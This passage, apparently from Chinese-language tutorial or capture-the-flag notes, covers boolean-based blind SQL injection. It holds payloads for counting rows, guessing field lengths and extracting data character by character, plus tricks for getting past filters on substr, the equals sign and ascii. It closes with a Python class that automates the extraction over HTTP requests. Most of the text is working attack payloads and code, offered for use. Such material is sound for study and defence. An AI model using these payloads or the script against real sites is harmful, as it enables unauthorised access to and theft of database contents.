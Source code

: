 ```
and (select count(列名) from 表名)=数量
```


·猜解某条数据的长度

```
and (select length(列名) from 表名 limit n,1)=长度
```


·逐位猜解数据

```
and (select ascii(substr(user,位数,1)) from 表名 limit n,1)=ascii码
```

绕过技巧
(1)substr函数绕过
left(str,从左边开始截取的位置)
right(str,从右边开始截取的位置)
substring(str,从左边开始截取的位置)
mid(str,index,key)截取str从index开始，截取len的长度
lpad(str,len,padstr) rpad(str,len,padstr)在str的左(右)两边填充给定的padstr到指定的长度len，返回填充的结果
(2)等于号(=)绕过
1.用in()
2.用like
(3)ASCII()绕过
hex() bin() ord()

就是直接用脚本来进行注入

```python
import requests


class InjeSql(object):
    def __init__(self, url, payload_length, payload_Data, name, conditions, name_length, max_len=12):
        self.url = url
        self.payload_length = payload_length
        self.payload_Data = payload_Data
        self.max_len = max_len  # 数据库名、表名等长度上限
        self.conditions = conditions
        self.name = name
        self.name_length = name_length

    def getLength(self):
        for i in range(1, self.max_len):
            payload = self.payload_length % i
            r = requests.get(self.url + payload + '%23')

            if self.conditions in r.text:
                self.name_leng = i
                print(self.name+"的长度是", i)
                break

    def getData(self):
        name = ''
        for j in range(1, self.name_length + 1):
            for i in 'abcdefghijklmnopqrstuvwxyz}{0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ':
                url = self.url + self.payload_Data % (j, i)
                r = requests.get(url + '%23')
                if 'query_success' in r.text:
                    name = name + i
                    print(name)
                    break
        print(self.name+":"+name)
```
